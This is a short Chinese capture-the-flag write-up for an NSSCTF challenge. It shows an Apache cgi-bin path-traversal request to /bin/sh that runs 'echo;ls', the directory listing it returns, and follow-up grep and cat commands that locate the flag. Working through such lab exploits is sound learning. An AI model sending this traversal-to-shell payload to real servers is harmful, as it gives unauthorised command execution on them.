

#

[参考1](https://blog.csdn.net/weixin_52116519/article/details/127540169)
[参考2](https://blog.csdn.net/m0_53073183/article/details/135982730)
[题目链接](https://www.nssctf.cn/problem/2485)

## 漏洞发现

通过中间件版本



```攻击命令 POST
/cgi-bin/test-cgi/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh

echo;ls

bin
boot
dev
etc
flag_is_here
home
lib
lib64
media
mnt
opt
proc
root
run
run.sh
sbin
srv
sys
tmp
usr
var
```

接下来在flag_is_here中搜就行

```bash
echo;grep -r "NSS" /flag_is_here
```

或者

echo;cat /run.sh

回显

```bash
#! /bin/bash

echo $FLAG > /flag_is_here/2/0/7/6/flag
FLAG=no_flag
export FLAG=no_flag

httpd-foreground
```

## 待学习

CVS泄露